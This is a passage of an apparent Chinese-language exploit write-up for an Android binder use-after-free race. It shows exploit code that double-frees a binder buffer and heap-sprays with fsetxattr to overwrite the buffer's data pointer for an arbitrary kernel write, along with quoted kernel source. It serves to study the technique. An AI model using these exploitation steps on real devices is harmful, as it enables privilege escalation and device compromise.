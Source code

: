 ```
        heap_spray();
        heapGuard();
    }
}
 
void raceWin(int replyParcelIndex)
{
    pthread_mutex_lock(&alloc_mutex);
    bc_free_buffer(replyParcelIndex);
    global_parcel_index = replyParcelIndex;
    pthread_cond_signal(&alloc_cond);
    pthread_mutex_unlock(&alloc_mutex);
    usleep(450);
    bc_free_buffer(replyParcelIndex);
    bc_free_buffer(replyParcelIndex - 1);
    heap_spray_times();
    ...
} 

```

释放 binder_buffer 后堆喷，使用 fsetxattr 占用 binder_buffer 的 data_size 和 data。

```
struct binder_buffer {
        struct list_head entry; /* free and allocated entries by address */
        struct rb_node rb_node; /* free entry by size or allocated entry */
                                /* by address */
        unsigned free:1;
        unsigned allow_user_free:1;
        unsigned async_transaction:1;
        unsigned free_in_progress:1;
        unsigned debug_id:28;
 
        struct binder_transaction *transaction;
 
        struct binder_node *target_node;
        size_t data_size;
        size_t offsets_size;
        size_t extra_buffers_size;
        void *data;
};

```

因为要实现任意地址写，binder_buffer 的 data 偏移为 88，要修改为要写的任意地址，见 heap_spray 函数。

```
        t->buffer = binder_alloc_new_buf(&target_proc->alloc, tr->data_size,
                tr->offsets_size, extra_buffers_size,
                !reply && (t->flags & TF_ONE_WAY)); //分配内存
        if (IS_ERR(t->buffer)) {  //竞争窗口期
                /*
                 * -ESRCH indicates VMA cleared. The target is dying.
                 */
                return_error_param = PTR_ERR(t->buffer);
                return_error = return_error_param == -ESRCH ?
                        BR_DEAD_REPLY : BR_FAILED_REPLY;
                return_error_line = __LINE__;
                t->buffer = NULL;
                goto err_binder_alloc_buf_failed;
        }
        t->buffer->allow_user_free = 0;//t->buffer已经被释放并重新堆喷占位了
        t->buffer->debug_id = t->debug_id;
        t->buffer->transaction = t;
```